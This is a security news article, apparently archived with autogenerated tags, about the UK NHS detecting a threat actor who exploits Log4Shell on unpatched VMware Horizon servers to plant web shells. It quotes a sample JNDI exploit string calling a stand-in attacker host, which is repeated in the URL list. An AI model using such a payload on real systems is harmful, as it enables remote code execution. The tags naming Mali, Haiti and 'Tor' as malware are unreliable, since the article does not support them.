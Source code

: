 # UK NHS: Threat actor targets VMware Horizon servers using Log4Shell exploits
### The security team of the UK National Health Service (NHS) said that it detected an unknown threat actor using the Log4Shell vulnerability to hack VMWare Horizon servers and plant web shells for future attacks.

## Information:
+ Source: The Record
+ Link: https://therecord.media/uk-nhs-threat-actor-targets-vmware-horizon-servers-using-log4shell-exploits/
+ Date: 2022-01-07T11:06:54+00:00
+ Author: Catalin Cimpanu


## Article:
![Article Image](https://therecord.media/wp-content/uploads/2022/01/NHS-ambulance.jpg)

* UK NHS reveals ongoing attacks on VMWare Horizon servers.
* VMWare Horizon is a platform used to deploy virtual desktops in enterprise environments.
* Attackers are planting web shells on VMWare Horizon servers still vulnerable to the Log4Shell vulnerability.


The security team of the UK National Health Service (NHS) said that it detected an unknown threat actor using the Log4Shell vulnerability to hack VMWare Horizon servers and plant web shells for future attacks.


“The web shell can then be used by an attacker to carry out a number of malicious activities such as deploying additional malicious software, data exfiltration, or deployment of ransomware,” the NHS team said in a [security alert](https://digital.nhs.uk/cyber-alerts/2022/cc-4002) published on Wednesday.


The NHS-reported attacks mark the second time a VMWare product has been targeted via the Log4Shell vulnerability after reports that the Conti ransomware gang abused Log4Shell to [compromise VMWare vCenter servers](https://therecord.media/conti-ransomware-group-adopts-log4shell-exploit/) last month.


### What is Log4Shell


Disclosed on December 9, [Log4Shell](https://therecord.media/tag/log4shell/) is a vulnerability in Apache Log4j, a Java library used to add log management capabilities to Java web and desktop apps.


The vulnerability was initially discovered by operators of Minecraft servers, which relied on Log4j for logging, who discovered in late November that someone was using an exploit in the form below to hijack their servers.


**${jndi:ldap://attacker.com/malicious\_script}**


Log4j patches were released to fix and counter the attacks, and VMWare was one of the companies that integrated the Log4j fixes in its products to prevent the easy exploitation of its software via Log4Shell exploits.


[VMWare Horizon](https://www.vmware.com/products/horizon.html), a platform for managing and deploying virtual desktops for a company’s staff, was one of the [many VMWare affected products](https://www.vmware.com/security/advisories/VMSA-2021-0028.html) that received a patch to prevent Log4Shell attacks.


### NHS discovers Log4Shell attacks on VMWare Horizon servers


But the NHS said that despite the patch’s availability, it is now seeing attacks that are trying to identify VMWare Horizon servers that haven’t been patched.


The NHS’ security team said the attacks follow the pattern of the initial Log4Shell exploit (detailed above), with the attacker sending a JDNI request to a VMWare Horizon server.


If the server has not been patched, the attacker’s exploit will force the Horizon server to connect via LDAP to a malicious domain, download and then run a PowerShell script that installs a web shell, which will act as a backdoor for future attacks.


![NHS-attacker-diagram](https://therecord.media/wp-content/uploads/2022/01/NHS-attacker-diagram.png)Image: UK NHS
To help organizations that run VMWare Horizon servers, the UK NHS has released instructions on how to detect possible signs of exploitation.


This advice can be found in the [NHS technical report](https://digital.nhs.uk/cyber-alerts/2022/cc-4002), and we will not be reproducing it here to avoid situations where the NHS updates the code with better detections.




> Brilliant work by our cyber security operations centre:<https://t.co/lSXUTbpvrD>
> 
> — Phil Huggins (@oracuk) [January 5, 2022](https://twitter.com/oracuk/status/1478804212964278279?ref_src=twsrc%5Etfw)






## Tags:

#### Action:
[[action.malware.name=at]] [[action.malware.name=Conti]] [[action.malware.name=Tor]]

#### Industry:
[[victim.industry.name=Information]]

#### Location:
[[victim.country.name=Mali]] [[victim.continent.name=Africa]] [[victim.city.name=]] [[victim.country.name=Haiti]] [[victim.continent.name=North and Central America]]

### Autogenerated Tags:
[[Vmware]] [[Log4shell]] [[Nhs]] [[Uk]] [[Log4j]] [[The Record]]
#### urls
ldap://attacker.com/malicious_script} https://t.co/lSXUTbpvrD—

